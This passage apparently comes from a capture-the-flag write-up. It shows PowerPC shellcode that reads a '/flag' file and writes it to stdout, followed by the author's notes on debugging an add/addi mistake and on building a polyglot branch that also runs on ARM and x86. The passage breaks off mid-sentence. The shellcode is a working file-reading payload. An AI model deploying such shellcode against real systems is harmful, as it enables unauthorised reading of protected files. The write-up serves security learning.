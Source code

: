        //read
        xor     4, 4, 4                 //xor r4, r4, r4
        addi    4, 1, 0x0               //mov r1 to r4 &lt;--- add is used to simulate mov
        xor     5, 5, 5                 //do same for r5 as we did for r4
        addi    5, 5, 0x64              //set r5 to 0x64, maybe better would be li... but who cares...
        //r3 has fd
        li      0, 3                    //r0 = read syscall (r3 is already set to fd)
        sc

        //write
        xor     5, 5, 5                 //r5 to 0
        addi    5 ,5, 0x64              //r5 to 0x64
        xor     4, 4, 4
        addi    4, 1, 0
        xor     3, 3, 3                 //r3 = 0
        addi    3, 3, 1                 //r3 = 1 (stdout)
        li      0, 4                    //r0 = 4 (write)
        sc                              //sc

        xor     3, 3, 3
        //exit
        li      0, 1
        sc

__flag_address:
        bl      __goback
flag:   .ascii "/flag"
</pre>

My biggest error came in **addi 4,1,0** as I didn&#8217;t use **addi** but I&#8217;ve used **add**, in this great syntax it assembles to: **add r4, r1, r0** &#8212; r0 + SP and I just wanted to do **addi r4, r1, 0** (easy way to move data from one register to another&#8230;). This took some time to figure, and was really really annoying part, as shellcode worked on their binary running on my PowerPC so it was hard to spot error. One way for me to test PowerPC (before I&#8217;ve noticed addi add error in shellcode) was to use **/flags** instead of **/flag** which would on open block server. I have no idea what /flags was on remote sysem, but server would hang and would not send any error back (no socket close, no reply, nothing, just idle state).

Now comes part where I need to put B to PowerPC and to skip over ARM code, and make it x86 compatible. This tooks some time, as I needed such instruction (and I found one) which is perfectly skipped by arm, but x86 wouldn&#8217;t like it (no matter what) as B in PowerPC starts with 0x4x which translates to inc/dec registers on x86. Next byte after 0x4x must be 0&#215;0 so we don&#8217;t jump far (well it makes conditional jmp on PowerPC but I didn&#8217;t want to waste too much time on learning full PowerPC assembly)

One good solution which worked (but tnx to add r4, r1, r0) I thought that this time I had same problem like in arm, that my computer didn&#8217;t send enough data:

<pre class="brush: plain; title: ; notranslate" title="">code = "";
code += "x40x00x04x05";
code += "x02x00x00x42";

</pre>

which translates to brilliant opcodes which are properly executed:
